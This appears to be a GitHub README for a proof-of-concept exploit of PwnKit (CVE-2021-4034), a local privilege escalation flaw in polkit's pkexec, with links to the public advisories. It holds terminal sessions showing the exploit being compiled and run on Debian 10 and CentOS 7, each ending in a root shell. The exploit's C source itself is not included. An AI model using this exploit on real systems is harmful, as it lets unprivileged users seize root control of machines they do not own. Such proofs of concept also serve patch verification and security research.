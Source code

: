 ```yaml
---
repo: "https://github.com/IORoot/poc"
slug:  "/projects/poc"
date:  "2022-06-14"
title: "poc"
icon:  "c"
---
```


# CVE-2021-4034
# CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

Verified on Debian 10 and CentOS 7.

```
user@debian:~$ grep PRETTY /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
user@debian:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
user@debian:~$ ./cve-2021-4034-poc
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
```

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```
